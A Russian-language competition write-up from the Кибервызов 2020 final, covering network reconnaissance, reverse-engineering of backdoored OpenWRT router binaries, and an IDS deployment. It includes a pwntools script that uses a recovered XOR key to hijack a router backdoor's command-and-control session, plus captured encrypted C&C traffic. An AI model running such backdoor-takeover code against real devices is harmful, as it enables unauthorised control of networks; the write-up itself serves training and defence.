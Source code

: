 # Кибервызов 2020
Решение для финала Кибервызов 2020
От команды `картинг по ру` - @kinjalik @djalilkhisaliev @gavt45 @gleb270

# Первичное исследование сетевой инфраструктуры

Подключились по SSH по выданным данным для входа. 
Запустили анализ с помощью `nmap` и `arp` и нашли 3 ip с интересными портами и проанализировав дампы трафика, определили, что роутеры находятся по адресам: 10.0.8.12 , 10.0.8.13 , 10.0.8.14 , а атакующий находится по адресу 192.168.1.2

# Обратная разработка сетевых протоколов

Чтобы найти уязвимые файлы, мы скачали оригинальный образ прошивок OpenWRT и с помощью `diff` нашли отличающиеся файлы

## 1. MIPS

Файл находился по пути `/usr/bin/sign`
 
Так же 10.0.8.13 биндится на 8888, тем самым создается подключение
192.168.1.2 сюда создается коннект c 10.0.8.13 на порт 5555
Найден ключ XOR: 
03 22 a7 14 be c4 10 2d f1 37 c7 1e 68 49 23 67

### Код для эксплойта:
```
def xor(s1,s2):
        return ''.join(chr(ord(a) ^ ord(b)) for a,b in zip(s1,s2))

from pwn import *

r = remote('10.0.8.13', 8888)

k = unhexlify('03 22 a7 14 be c4 10 2d f1 37 c7 1e 68 49 23 67'.replace(' ',''))

IV = b'\x33\x23\x00\x1a'
print(IV)
init_msg = IV+b'\x7e\x2a'+IV+b'\x01\x01\x01\x01'
our_part = IV+b'\x01\x01\x01\x01'
print(init_msg)
enc_init_msg = xor(init_msg, k)
info(init_msg)
info(enc_init_msg)

r.send(enc_init_msg)

their_part = xor(r.recv(), k)

sess_key = our_part+their_part

info("Enc out: "+str(xor('\xde\xad',sess_key)[:2]))

r.send(xor('\x55\xfa',sess_key)[:2])

print(xor(r.recv(), sess_key))

```



Перехваченнный зашифрованный траффик на C&C сервер. Расшифровывается ксором .
`2006391a293d1101072b3b1d2f0031172e38012520043a0d21130a3c1c221b311d3934251c15043e3012323f1b150603343105003e100e092a29302e0a263e1e203b1d26261a323a32022018291523080529291f0921193c3b0006161b072c3e241a32281b213f27210d03222d0034102d242a0f2d0330360300330f263d07200a1504323a3d0c2619082a3f0829083b392d0b0c060920191904380529162204282a39032f1d03362b3a34172415371b313a171a0f3a1203261c2c1016022e133e081b0e313e10131c050c1e3f20313c3c0a03182332091d1e0315003521040836`

should_be_not_return_1 сравнивает dect_buffer с CE FA
Первые два байта дешифрованного сообщения должны быть CE и FA. 

ОПИСАНИЕ:
Описание протокола: 
Сначала C&C сервер(192.168.1.2) отсылает 14 байт в которых содержатся 2 байта команды на инициализацию и 8 байт IV. На основе этого ключа и текущего времени(рандом) клиент(роутер) генерирует вторую половину сессионного ключа(тоже 8 байт), 
которые отсылаеются на сервер. Сервер складывает то, что принял и IV и получает сессионый ключ. Далее все команды и ответы шифруются именно им. В качестве шифрования используется XOR. 

Открыли файл в ghidra. 25 строка создает дескриптор сокета, который биндит порт 8888(sStack44). 
Если порт был успешно забинден, то запускается бесконечный цикл(30 строка), которая постоянно прослушывает данный порт. 

Перейдем к описанию функции parse_command, но перед этим заметим, что бесконечный цикл завершается только в случае, если parse_command возвратит какие-либо значения, кроме единицы. Условия в 15 строке выполнится, если переменная cStack12, которая изначально имеет значение 
'\0' будет иметь значение '\x01'. Она примет значение '\x01' только когда функция should_not_return_1 сгенерирует сессионный ключ.
#### main
![](https://i.imgur.com/EHWi1C2.png)

#### should_not_return_1
![](https://i.imgur.com/FkXFzRr.png) 

#### parse_command
![](https://i.imgur.com/yMpvIbA.png)

## 2. ARM

Файл назывался `mkfs.f3fs`
Ключ генеируется по протоколу Диффи-Хелмана


## 3. x86_64

Файл был расположен по пути `/root/doc/log`
Сниффер использующий `libpcap`


# Реализация средств защиты информации
В целях обнаруженя и предотвращения последующих вторжений была развернута IDS-систем. С ее помощью производится анализ трафика, нахождение пакетов с подозрительными сигнатурами и последующее реагирование на них (в виде оповещения администратору или полной блокировки).

Использемое программное обеспечение:
- `Surricat` -- производит сбор, анализ и сохранение дампа трафика
- `SSHFS` -- обеспечивает доступ сервера IDS к дампу трафика на машине, производящей сбор
- `logstash` и `filebeat` -- централизованный сбор и выгрузка лог-инфорации (в данный момент применяется только для одного источника информации, но имеется перспектива масштабирования)
- `elasticsearch` -- система управления информацией, предоставляет остальным компонентам интерфейсы для доступа и/или добавления данных
- `Kibana` -- просмотр лог-информации, предоставление к ней интерактивного доступа
